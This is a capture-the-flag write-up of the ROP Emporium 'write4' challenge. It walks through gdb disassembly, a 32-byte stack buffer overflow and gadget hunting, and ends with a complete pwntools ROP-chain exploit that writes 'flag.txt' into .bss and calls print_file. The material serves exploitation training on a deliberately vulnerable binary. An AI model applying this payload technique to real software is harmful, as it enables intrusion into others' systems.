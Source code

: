 ```yaml
---
title: RopEmporium - Write4
date: 2021-12-17 23:20:05
tags: [ropemporium, rop]
---
```


Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

<!-- more -->

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary, we will use gdb debugger to analyze the functions. For analysis of our binary we start at the `main` function which is the entrypoint of our execution.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. Next step is analyzing `libwrite4.so` library using gdb.

```nasm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.

![](/images/ropemporium/stack.png)

Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability,we can exploit it in order to abuse the control flow of the program by controlling the value of the return address.

From the authors hint, we need to look for an ELF section that is writable in order to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check permissions of different sections using the command **iS** as shown in the image below.

![](/images/ropemporium/write4_where.png)

From the above we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get memory address of **.bss** area.

From the authors challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.

![](/images/ropemporium/write4_useful.png)

From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the the print_file function.

From the disassembly of the binary we have another interesting function called **usefulGadgets**.

```nasm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write content of `r15` register to memory address [r14]. Next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI.The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control both `r14` and `r15`.

```nasm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```nasm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid passing of an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```nasm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain them together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit, will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
